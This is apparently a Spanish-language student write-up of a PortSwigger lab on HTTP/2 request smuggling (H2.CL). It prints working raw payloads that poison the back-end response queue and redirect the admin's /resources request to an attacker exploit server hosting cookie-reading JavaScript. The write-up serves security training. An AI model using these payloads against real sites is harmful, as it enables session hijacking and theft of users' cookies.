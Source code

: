 En esta clase llevamos a cabo un ataque de request smuggling utilizando HTTP/2 con un encabezado ‘**Content-Length**‘ malicioso (H2.CL), cuyo objetivo es hacer que el navegador de la víctima cargue y ejecute un archivo JavaScript desde nuestro servidor malicioso.

Aprovechamos una redirección automática al acceder a /resources, lo que nos permite inyectar una petición que, al ser procesada por el back-end, provoca que la víctima sea redirigida al exploit server donde se aloja nuestro payload ‘**alert(document.cookie)**‘.

La clave está en enviar la petición en el momento justo en que el administrador accede a la página, ya que este tráfico será el que acabe siendo redirigido gracias a la cola de respuestas envenenada. Esta técnica requiere repetir el ataque varias veces hasta acertar con el timing exacto.

Solucion
asi que vamos hacer la configuracion de la intercepcion de la pagina principal y vamos a meter un paylaod para que nos muestre el error 404 y asi saber si es vulnerable a smuggling
![Pasted image 20250809212331.png](imagenes/Pasted image 20250809212331.png)
payload (POST / HTTP/2

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 14



test=testing

GET /error HTTP/1.1

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 5



x=1)
entonces en este caso a un request smugling
entonces que sigue por que en este caso nosotros no podemos copiar asi la cookie entonces lo que hacemos es investigar un poco y si miramos en el BS en el http history vemos que se esta haciendo alucion a /resources cada poco tiempo
![Pasted image 20250809212628.png](imagenes/Pasted image 20250809212628.png)
de modo que nostros no podemos hacer la peticion por medio de esta vulnerabilidad lo que podemos hacer es redireccionar nuestro payload hacia resources para ver si nos arroja el mismo error
![Pasted image 20250809213017.png](imagenes/Pasted image 20250809213017.png)
y en este caso nos arroja el 302 (entonces lo que podemos hacer es redirigir a nuestro exploit server)
pasamos a configurarlo
![Pasted image 20250809213648.png](imagenes/Pasted image 20250809213648.png)
entonces cambiamos el host hacia nuestro exploit server y le damos send
![Pasted image 20250809213730.png](imagenes/Pasted image 20250809213730.png)
ahora si le damos follow redirection
![Pasted image 20250809214244.png](imagenes/Pasted image 20250809214244.png)
payload (POST / HTTP/2

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 14



test=testing

GET /resources HTTP/1.1

Host: exploit-0a65006b044fa3548057025e012f00fe.exploit-server.net

Content-Length: 5



x=1)
entonces es solo cuestion de esperar para poder tener respuesta de la cookie
![Pasted image 20250809214528.png](imagenes/Pasted image 20250809214528.png)
